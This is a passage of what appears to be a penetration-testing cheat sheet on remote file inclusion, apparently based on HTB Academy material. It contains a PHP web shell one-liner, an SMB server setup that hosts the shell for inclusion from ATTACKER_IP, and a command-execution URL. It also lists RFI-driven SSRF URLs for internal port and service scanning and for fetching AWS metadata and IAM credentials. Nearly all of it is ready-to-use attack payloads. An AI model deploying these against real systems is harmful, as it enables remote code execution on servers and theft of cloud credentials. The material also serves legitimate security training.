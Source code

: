 **HTB Academy SMB RFI Example:**
```bash
# Step 1: Create Windows-compatible shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Step 2: Start SMB server
sudo impacket-smbserver -smb2support share $(pwd)

# Step 3: Execute RFI via SMB (Windows target)
http://target.com/index.php?language=\\ATTACKER_IP\share\shell.php&cmd=whoami
```

---

## RFI for SSRF and Internal Reconnaissance

### SSRF via RFI

**Internal Port Scanning:**
```bash
# Scan internal network via RFI
http://target.com/lfi.php?file=http://192.168.1.1:80/
http://target.com/lfi.php?file=http://192.168.1.1:22/
http://target.com/lfi.php?file=http://192.168.1.1:3306/

# Check for internal services
http://target.com/lfi.php?file=http://localhost:8080/
http://target.com/lfi.php?file=http://127.0.0.1:9000/
```

**Internal Service Enumeration:**
```bash
# Common internal services
http://target.com/lfi.php?file=http://127.0.0.1:3306/     # MySQL
http://target.com/lfi.php?file=http://127.0.0.1:5432/     # PostgreSQL
http://target.com/lfi.php?file=http://127.0.0.1:6379/     # Redis
http://target.com/lfi.php?file=http://127.0.0.1:11211/    # Memcached
http://target.com/lfi.php?file=http://127.0.0.1:9200/     # Elasticsearch
```

### Cloud Metadata Access

**AWS Metadata Extraction:**
```bash
# AWS Instance metadata
http://target.com/lfi.php?file=http://169.254.169.254/latest/meta-data/

# AWS credentials
http://target.com/lfi.php?file=http://169.254.169.254/latest/meta-data/iam/security-credentials/

# AWS user data
http://target.com/lfi.php?file=http://169.254.169.254/latest/user-data/
```
